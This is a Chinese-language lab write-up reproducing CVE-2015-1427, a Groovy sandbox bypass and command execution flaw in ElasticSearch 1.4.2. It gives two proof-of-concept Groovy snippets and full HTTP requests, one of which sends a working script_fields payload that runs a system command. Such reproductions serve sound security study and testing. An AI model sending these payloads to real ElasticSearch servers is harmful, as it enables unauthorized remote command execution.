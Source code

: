 （CVE-2015-1427）ElasticSearch Groovy 沙盒绕过 && 代码执行漏洞
==============================================================

一、漏洞简介
------------

CVE-2014-3120后，ElasticSearch默认的动态脚本语言换成了Groovy，并增加了沙盒，但默认仍然支持直接执行动态语言。本漏洞：1.是一个沙盒绕过；
2.是一个Goovy代码执行漏洞。

二、漏洞影响
------------

elasticsearch版本：v1.4.2

三、复现过程
------------

### Groovy语言"沙盒"

ElasticSearch支持使用"在沙盒中的"Groovy语言作为动态脚本，但显然官方的工作并没有做好。lupin和tang3分别提出了两种执行命令的方法：

1.  既然对执行Java代码有沙盒，lupin的方法是想办法绕过沙盒，比如使用Java反射

2.  Groovy原本也是一门语言，于是tang3另辟蹊径，使用Groovy语言支持的方法，来直接执行命令，无需使用Java语言

所以，根据这两种执行漏洞的思路，我们可以获得两个不同的POC。

Java沙盒绕过法：

    java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("id").getText()

Goovy直接执行命令法：

    def command='id';def res=command.execute().text;res

### 漏洞复现

编译及运行测试环境

    docker-compose build
    docker-compose up -d

由于查询时至少要求es中有一条数据，所以发送如下数据包，增加一个数据：

    POST /website/blog/ HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 25

    {
      "name": "test"
    }

然后发送包含payload的数据包，执行任意命令：

    POST /_search?pretty HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/text
    Content-Length: 156

    {"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"}}}

![](./.resource/(CVE-2015-1427)ElasticSearchGroovy沙盒绕过&&代码执行漏洞/media/rId26.png)

参考链接
--------

> https://vulhub.org/\#/environments/elasticsearch/CVE-2015-1427/
